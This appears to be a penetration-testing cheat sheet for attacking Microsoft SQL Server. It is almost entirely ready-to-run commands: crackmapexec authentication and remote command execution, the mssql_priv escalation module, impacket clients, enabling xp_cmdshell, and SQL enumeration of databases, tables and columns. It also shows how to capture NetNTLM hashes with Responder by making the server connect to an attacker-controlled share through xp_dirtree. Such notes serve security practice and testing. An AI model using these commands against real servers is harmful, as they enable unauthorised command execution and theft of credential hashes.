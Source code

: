 **MSSQL:**
---
```sh
sqsh -S $TARGET_IP:$PORT -U $DOMAIN\\$USER -P $PASS
```

```shell
crackmapexec mssql $TARGET_IP -u $USER -p $PASSWORD
```

```shell
crackmapexec mssql --local-auth $TARGET_IP -u $USER -p $PASSWORD -L
```

Try to execute command on server:
```shell
crackmapexec mssql --local-auth $TARGET_IP -u $USER -p $PASSWORD -x 'ping $ATTACKER'
```
and on attacker box:
```shell
sudo tcpdump -i tun0 icmp -n
```

Try to start mssql_priv:

```shell
crackmapexec mssql --local-auth $TARGET_IP -u $USER -p $PASSWORD -M mssql_priv
```

One client is mssqlclient.py:

```shell
mssqlclient.py $USER:$PASSWORD@$DOMAIN
```

Or use impacket to open console:

```shell
impacket-mssqlclient $TARGET_DOMAIN/$TARGET_USER:$TARGET_PASSWORD@$TARGET_NAME
```

Try:

```mssql
enable_xp_cmdshell
```

in MSSQL server try, start responder on attacker box:
```sql
xp_dirtree \\$ATTACKER_IP\fake\share
```

**List databases:**
---
```sql
SELECT name, database_id, create_date FROM sys.databases;
```

Show current DB name:
```sql
SELECT db_name();
```

```sql
SELECT STRING_AGG(name, ', ') FROM master..sysdatabases;
```

**List tables in selected DB:**
---
#mssql 

```sql
SELECT * FROM SYSOBJECTS WHERE xtype = 'U';
```

```sql
SELECT name FROM $DB_NAME..sysobjects WHERE xtype = 'U' order by name offset 1 rows fetch next 1 rows only)
```
List columns:
---
```sql
SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = '$COLUMN') order by name offset 1 rows fetch next 1 rows only
```
and offset for each entry
List column:
---
```sql
SELECT top 1 $COLUMN from $TABLE ORDER BY $COLUMN;
```
```sql
SELECT top 1 $COLUMN from $TABLE ORDER BY $COLUMN offset 1 rows fetch next 1 rows only;
```
Leak NetNTLM hashes
---
#hash #ntlm #netntlm #responder
Start responder or another hash grabber to get user and hash:

```bash
sudo responder.py -I tun0
```

and trick the MSSQL server to connect to the "share":

```sql
exec master.dbo.xp_dirtree '//$LOCAL_IP/non/existing'
```

